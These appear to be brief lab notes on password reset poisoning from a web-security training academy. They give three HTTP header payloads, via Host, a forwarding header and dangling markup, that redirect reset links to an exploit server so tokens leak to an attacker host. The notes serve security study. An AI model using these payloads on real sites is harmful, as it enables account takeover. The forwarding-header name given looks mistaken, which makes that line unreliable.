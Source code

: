 Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts.

### Lab: Basic password reset poisoning&#x20;

We can steal token with Host Header:

`Host: exploit-ac431f391f42e4f1c09819bf014000e2.web-security-academy.net/exploit`

### Lab: Password reset poisoning via middleware&#x20;

We can steal token with adding X-Forwarded-For Header:

`X-Forwarded-For: exploit-ac431f391f42e4f1c09819bf014000e2.web-security-academy.net/exploit`

### Lab: Password reset poisoning via dangling markup

We can steal password info with adding dangling markup to Host Header:

`Host: acd41f2d1faa27d0c019a1a800c5001a.web-security-academy.net:'<a href="//exploit-acaa1f361f6d271fc04fa17a012100c4.web-security-academy.net/exploit?`
